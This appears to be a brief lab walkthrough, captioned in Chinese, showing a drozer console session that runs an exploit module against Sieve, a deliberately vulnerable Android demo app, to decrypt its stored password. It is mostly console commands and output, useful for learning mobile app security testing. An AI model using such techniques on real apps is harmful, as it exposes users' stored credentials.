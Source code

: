 ```
      ..isandp,..,rotectorandro,..,idsnem.
      .isisandp..rotectorandroid..snemisis.
      ,andprotectorandroidsnemisisandprotec.
     .torandroidsnemesisandprotectorandroid.
     .snemisisandprotectorandroidsnemesisan:
     .dprotectorandroidsnemesisandprotector.

drozer Console (v2.4.4)
dz> list
exploit.sieve.crypto.decrypt  Decrypt Sieve passwords


dz> run exploit.sieve.crypto.decrypt
too few arguments
dz> run exploit.sieve.crypto.decrypt -h
usage: run exploit.sieve.crypto.decrypt [-h] key base64_ciphertext

Decrypt a given password with the provided key

Last Modified: 2014-07-22
Credit: MWR InfoSecurity (@mwrlabs)
License: BSD (3 clause)

positional arguments:
  key                AES key
  base64_ciphertext  the base64 ciphertext string to be decrypted

optional arguments:
  -h, --help
```

执行模块，解密成功
```
dz> run exploit.sieve.crypto.decrypt key666 xC9f7EZ/54Mzi5q506H0HblYWBH1RdR52nnIXg==
Extras
  com.mwr.example.sieve.PASSWORD (byte[]) : [-60, 47, 95, -20, 70, 127, -25, -125, 51, -117, -102, -71, -45, -95, -12, 29, -71, 88, 88, 17, -11, 69, -44, 121, -38, 121, -56, 94]
  com.mwr.example.sieve.RESULT (String) : hello_world!
  com.mwr.example.sieve.KEY (String) : key666
```
